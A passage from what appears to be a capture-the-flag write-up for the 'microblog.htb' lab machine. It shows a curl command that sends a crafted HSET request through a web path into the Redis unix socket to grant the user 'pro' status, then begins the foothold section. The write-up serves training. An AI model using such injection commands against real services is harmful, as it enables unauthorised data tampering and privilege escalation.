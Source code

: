 <br>

To become pro we can use this bash command, to make a redis query and setting ourselves as pro

```
curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:[USERNAME]%20pro%20true%20/b"
```

![17.png](img/17.png)

![18.png](img/18.png)

Cool now we can investigate and check what is new as Pro user!

<br><br>

# FOOTHOLD & USER FLAG

Cool, the first difference we have here is that we can edit the blog adding image 

![19.png](img/19.png)
